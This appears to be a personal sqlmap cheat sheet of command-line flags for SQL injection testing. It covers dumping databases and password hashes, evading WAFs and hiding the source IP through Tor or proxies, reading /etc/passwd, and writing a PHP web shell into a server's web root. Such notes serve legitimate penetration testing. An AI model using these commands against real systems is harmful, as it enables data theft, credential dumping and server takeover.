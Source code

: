 *Utilize ‘Copy as cURL’ from the Network monitor panel from dev tools. Change the curl command up front to sqlmap and that's your query*

### Good to Know

Dump the data in the terminal:
```CLI
--batch --dump
```

If there no known parameter for SQL you can throw in a command to crawl:
```CLI
--crawl --forms
```

POST requests:
```CLI
sqlmap 'http://www.example.com/' --data 'uid=1&name=test'
```

Long or complex request with multi-line. Copy the request from Burp and save as req.txt:
```CLI
sqlmap -r req.txt
```

Specifying a header (cookie, host, referer, --user-agent)**:
```CLI
sqlmap --cookie='PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c'
```

Decoy user agent to try and evade filters:
```CLI
--random-agent
```

JSON or XML formatted requests can also be done with:
```CLI
--data
```

Store traffice with the -t command:
```CLI
sqlmap -u "http://www.target.com/vuln.php?id=1" --batch -t /tmp/traffic.txt
```

### Database Enumeration
```txt
-autoenumeration (switch --all --batch)

-Search for table,db, and columns(switch --search -T/C/D <string>

-Structure of the db (switch --schema)

-Database version banner (switch --banner)

-Current user name (switch --current-user)

-Current database name (switch --current-db)

-Database specific credentials, use batch too (switch --passwords)

-Checking if the current user has DBA (administrator) rights (switch --is-dba)

-To show the tables use the tables switch and a -D with db name(switch --tables -D <db_name>

-To dump contents of the tables, use the dump with the tablename and db name (switch --dump -T <table> -D <db_name>

-Specify columns with C (switch -C name, email)

-To narrow down the rows based on their ordinal number(s) inside the table, we can specify the rows with the --start and --stop options (e.g., start from 2nd up to 3rd entry)

-If there is a requirement to retrieve certain rows based on a known WHERE condition (e.g. name LIKE 'f%'), we can use the option --where(switch --where="name LIKE 'f%'")
```


### Bypassing WAF

CSRF Token:
```CLI
--data="id=1&csrf-token=WfF1szMUHhiokx9AHFply5L2xAOfjRkE" --csrf-token="csrf-token"
```

Unique Value:
```CLI
--randomize=<parameter that needs unique id>
```

Calculated Parameter Bypass. When something needs to be evaluated before it runs the request like a python script:
```CLI
--eval

--eval="import hashlib; h=hashlib.md5(id).hexdigest()"
```

IP Address Concealing:
```CLI
--proxy="socks4://127.0.0.1:9050"

--tor

--check-tor
```

Tamper scripts:
```CLI
--tamper

--list-tampers
```

#### OS Exploitation

Check if user is DBA:
```CLI
--is-dba
```

Read File:
```CLI
--file-read "/etc/passwd"
```

Write File:
```CLI
--file-write "shell.php" --file-dest "/var/www/html/shell.php"
```
